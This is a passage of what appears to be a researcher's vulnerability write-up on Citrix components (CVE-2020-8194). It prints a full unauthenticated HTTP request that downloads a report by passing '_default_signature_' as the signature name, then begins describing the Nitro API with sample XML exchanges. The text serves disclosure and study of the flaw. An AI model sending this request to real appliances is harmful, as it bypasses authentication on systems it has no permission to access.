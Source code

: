 I really didn't spend to much time on this one, but Citrix deemed it interesting enough to assign it a CVE: **CVE-2020-8194**.

### Get all default signatures
Not an interesting finding at all, but the report controller allows you to download a report without authenticating by using the following HTTP request:

```http
POST /pcidss/report?type=all_signatures&sid=254&username=nsroot&profile_name=default&set=0&sig_name=_default_signature_&sig_start_no=1 HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/pcidss/launch_report?type=main
Content-Type: application/xml
Content-Length: 0
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![](img/default_signature.png)

Reason for this is that authentication isn't checked when requesting `_default_signature_` as your `sig_name`.


### The Nitro API
One of the more interesting things I looked at was something called the "Nitro API". This is an API that is both accessible to users but is also used under the hood by the other Citrix components. Plus, it is [well documented](https://developer-docs.citrix.com/projects/netscaler-nitro-api/en/12.0/). The basic usage of it is: you send it some data in XML or JSON format, and you get back a reply. 

So for example the request:

```xml
<?xml version="1.0"?>
<server></server>
```

Would return:
```xml
<?xml version="1.0"?>
<nitroResponse><errorcode>0</errorcode><message>Done</message><severity>NONE</severity></nitroResponse>
```

Or, if you've not been authenticated:
```xml
<?xml version="1.0"?>
<nitroResponse><errorcode>354</errorcode><message>Invalid username or password</message><severity>ERROR</severity></nitroResponse>
```
